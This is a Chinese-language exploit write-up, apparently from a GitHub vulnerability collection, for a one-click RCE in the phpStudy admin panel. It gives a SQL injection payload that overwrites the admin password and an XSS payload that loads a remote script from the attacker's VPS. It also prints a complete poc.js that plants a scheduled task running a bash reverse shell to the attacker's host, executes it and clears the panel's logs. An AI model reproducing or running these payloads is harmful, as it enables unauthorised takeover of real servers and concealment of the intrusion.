







# PHPStudy 后台管理页面 one click RCE

## 漏洞描述

phpStudy 集安全、高效、功能与一体，已获得全球用户认可安装，运维也高效。支持一键 LAMP、LNMP、集群、监控、网站、数据库、FTP、软件中心、伪静态、云备份、SSL、多版本共存、Nginx 反向代理、服务器防火墙、Web 防火墙、监控大屏等服务器管理功能。phpStudy 面板存在存储型 XSS 漏洞，攻击者可以通过 js 调用面板中的计划任务执行系统命令。

## 漏洞影响

```
小皮 windows 面板 V0.102 以及以下版本
小皮 linux 面板 X1.29 以及以下版本
```

## 漏洞复现

### 方式 1 SQL 注入

phpstudy 访问面板登录页面需要添加如下 Headers：

```
x-requested-with: XMLHttpRequest
```



在用户登录处构造 Payload，其中 Password 的值是经过五次 md5 加密后的结果，脚本如下：

```python
import hashlib
str = "123456"
for i in range(0,5):
    str = hashlib.md5(str.encode()).hexdigest()
print(str)
```

填写 Payload，验证码处需要正确输入：

```
admin';UPDATE ADMINS set PASSWORD = 'c26be8aaf53b15054896983b43eb6a65' where username = 'admin';--
```

虽然提示错误信息，但此时已经成功将用户名/密码修改为： `admin/123456`



在后台计划任务处创建一个反弹 shell 脚本，点击执行：



服务器端监听，成功接收反弹 Shell：



### 方式 2 XSS

在 VPS 上放置 [poc.js](#漏洞POC)，监听 8888 端口，并通过以下命令启动 HTTP 服务：

```
python3 -m http.server 9999
```

在访问面板登录页面用户名处插入 XSS 语句：

```
<script src="http://<your-vps-ip>:9999/poc.js"></script>
```



通过方式 1，已经获得了用户名/密码为 admin/123456，进入后台验证一下计划任务是否成功写入：



等待 1 分钟，成功接收反弹 Shell：



## 漏洞POC

poc.js：

```js
function exp() {
  $.ajax({
      url: '/service/app/tasks.php?type=task_list',   //获取计划任务列表
      type: 'GET',
      headers:{
          "X-Requested-With": "XMLHttpRequest"
      },
      dataType: 'json',
      success: function (data) {
          var id = data.data[0].ID;    //任务名称
          $.ajax({
              url: '/service/app/tasks.php?type=exec_task',     //执行计划任务
              type: 'POST',
              headers:{
                  "X-Requested-With": "XMLHttpRequest",
                  "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
              },
              data: { tid: id },
              dataType: 'json',
              success: function (res) {
                  $.ajax({
                      url: '/service/app/log.php?type=clearlog',
                      type: 'POST',
                      data: { type: 'clearlog' },
                      dataType: 'json',
                      success: function (res2) {}
                  });
              }
          });
      }
  });
}

function save() {
  var data = new Object();
  data.task_id = '';
  data.title = 'test';
  data.exec_cycle = '5';
  data.week = '1';
  data.day = '3';
  data.hour = '1';
  data.minute = '1';
  data.shell = 'bash -i >& /dev/tcp/<your-vps-ip>/8888 0>&1';;
  $.ajax({
      url: '/service/app/tasks.php?type=save_shell',
      type: 'POST',
      headers:{
          "X-Requested-With": "XMLHttpRequest",
          "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
      },
      data: data,
      dataType: 'json',
      success: function (res) {
          exp();
      }
  });
}

save();
```

